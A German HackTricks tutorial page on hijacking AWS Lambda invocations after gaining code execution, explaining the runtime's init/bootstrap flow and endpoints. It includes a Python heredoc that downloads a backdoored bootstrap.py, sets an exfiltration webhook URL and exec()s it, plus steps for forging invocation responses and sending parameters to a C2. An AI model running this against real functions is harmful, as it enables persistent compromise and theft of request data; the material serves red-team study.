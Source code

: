 # AWS - Steal Lambda Requests

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Invocations** an den **init**-Prozess **sendet**.
2. Der init-Prozess hört auf Port **9001** und stellt einige interessante Endpunkte bereit:
* **`/2018-06-01/runtime/invocation/next`** – holt das nächste Invocation-Ereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gibt die Handler-Antwort für die Invocation zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gibt einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Invocations vom init-Prozess abruft und den Benutzer-Code aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an init

Beachte, dass bootstrap den Benutzer-Code als Modul lädt, sodass jede Codeausführung, die vom Benutzer-Code durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzer-Code dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die anfällige Anfrage verarbeitet. Auf diese Weise beginnt der **bösartige bootstrap**-Prozess, **mit dem init-Prozess zu kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den init-Prozess stellt.&#x20;

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis der aktuellen Invocation an den init-Prozess senden**, sodass init denkt, der bootstrap-Prozess wartet auf weitere Invocations.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.&#x20;
* Die invoke-id kann aus dem Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut an **`/2018-06-01/runtime/invocation/next`** angefordert werden (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Invocations verarbeitet.
* Aus Tarnungsgründen ist es möglich, die Lambda-Invocations-Parameter an ein vom Angreifer kontrolliertes C2 zu senden und dann die Anfragen wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den Originalcode von **`bootstrap.py`** aus dem System oder [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus der aktuellen Lambda-Invocation auszuführen.

### Angriffsschritte

1. Eine **RCE**-Schwachstelle finden.
2. Einen **bösartigen** **bootstrap** generieren (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. Den bösartigen bootstrap **ausführen**.

Diese Aktionen können leicht durchgeführt werden, indem man:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Sieh dir die [**Abonnementpläne**](https://github.com/sponsors/carlospolop) an!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

